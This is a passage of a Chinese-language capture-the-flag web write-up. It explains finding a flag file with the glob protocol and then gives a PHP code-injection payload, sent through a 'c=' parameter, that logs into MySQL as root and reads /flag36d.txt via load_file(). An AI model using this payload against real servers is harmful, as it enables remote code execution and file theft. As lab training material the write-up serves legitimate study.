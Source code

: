 ![image-20241130003249705](../assets/image-20241130003249705.png)

这题依旧是用glob协议查目录，得到文件名为flag36d.txt

用上一题mysql的方法，成功查到flag

payload:

```
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36d.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

#### web77

![image-20241130004911319](../assets/image-20241130004911319.png)
